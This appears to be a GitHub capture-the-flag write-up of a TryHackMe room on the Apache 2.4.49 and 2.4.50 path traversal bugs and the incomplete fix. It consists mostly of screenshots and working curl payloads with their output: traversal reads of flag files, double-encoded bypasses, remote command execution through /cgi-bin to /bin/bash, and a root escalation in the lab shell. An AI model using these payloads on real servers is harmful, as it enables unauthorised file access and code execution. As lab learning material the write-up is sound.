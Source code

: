 <h1 align="center">CVE-2021-41772/42014</h1>
<p align="center"><img width="80px" src="https://github.com/user-attachments/assets/3e13c697-7497-48e1-ba05-b3fb80855c43"><br>
July 3, 2025<br> Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>,<br>
and I’m excited to join you on this adventure,<br>
part of my <code>423</code>-day-streak in<a href="https://tryhackme.com">TryHackMe</a>.<br>
<em>A small explanation of an Apache path traversal bug and an incomplete fix</em>.<br>
Access it <a href="https://tryhackme.com/room/cve202141773"</a>here.<br>
<img width="1200px" src="https://github.com/user-attachments/assets/094c2313-0800-476f-8c7e-df2d68919be0"></p>

<br>

![image](https://github.com/user-attachments/assets/85a38630-7b4d-4239-85e5-4f1850c0d7e2)

![image](https://github.com/user-attachments/assets/9fd50766-fb44-4cd3-beef-400de55543ab)

![image](https://github.com/user-attachments/assets/34a37380-86a9-4669-8738-85f848df40b9)

```bash
```

![image](https://github.com/user-attachments/assets/aa2b002a-2bcd-4926-96eb-c2d69f989a44)

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt'
...
> GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1
> Host: 10.10.160.15:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 1... GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "1d-5ce102e25be36"
< Accept-Ranges: bytes
< Content-Length: 29
< Content-Type: text/plain
< 
* Connection #0 to host 10.10.160.15 left intact
THM{724V3R51N6_P4TH5_F02_FUN}
```

![image](https://github.com/user-attachments/assets/b6815ccb-f7ef-4a9d-9f48-295af3dd60c6)

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt'
...
> GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1
> Host: 10.10.160.15:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "1d-5ce102e25be36"
< Accept-Ranges: bytes
< Content-Length: 29
< Content-Type: text/plain
< 
...
THM{724V3R51N6_P4TH5_F02_FUN}
```

```bash
:~/InfoRoom# curl -v 'http://1TargetIP:8081/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H 'Content-Type: text/plain'
...
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: text/plain
> Content-Length: 50
> 
* upload completely sent off: 50 out of 50 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.49 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
...
THM{2C3_F20M_C61}
```

![image](https://github.com/user-attachments/assets/ab8d18f3-c960-477c-ad4c-68216453b860)

![image](https://github.com/user-attachments/assets/2d55a44b-a61a-4e23-b176-ffde1fd0445a)


```bash
:~/InfoRoom# curl -v 'http://TargetIP:8082/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag.txt'
...
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.50 (Unix)
< Last-Modified: Mon, 11 Oct 2021 09:16:12 GMT
< ETag: "18-5ce102e26103d"
< Accept-Ranges: bytes
< Content-Length: 24
< Content-Type: text/plain
< 
...
THM{D0UBL3_3NC0D1N6_F7W}
```

```bash
:~/InfoRoom# curl -v 'http://TargetIP:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H 'Content-Type: text/plain'
*   Trying 10.10.160.15:8083...
* TCP_NODELAY set
...
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: text/plain
> Content-Length: 50
> 
* upload completely sent off: 50 out of 50 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 03 Jul 2025 ... GMT
< Server: Apache/2.4.50 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
...
THM{F1L732_8YP455_2C3}
```

![image](https://github.com/user-attachments/assets/7c519922-90a4-44a2-916c-6e5ec4e68724)


```bash
daemon@18c7613b3859:/bin$ whoami
whoami
daemon
daemon@18c7613b3859:/bin$ su root
su root
Password: ApacheCVE
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/bin
cd /root
ls
root.txt
cat root.txt
THM{P21V_35C_F20M_4P4CH3_15_FUN}
```


<br>
<br>

![image](https://github.com/user-attachments/assets/6a81a593-6122-4acb-801d-162bb1f46795)

![image](https://github.com/user-attachments/assets/5a401eff-c01a-48a8-8927-2af2fafc5b65)

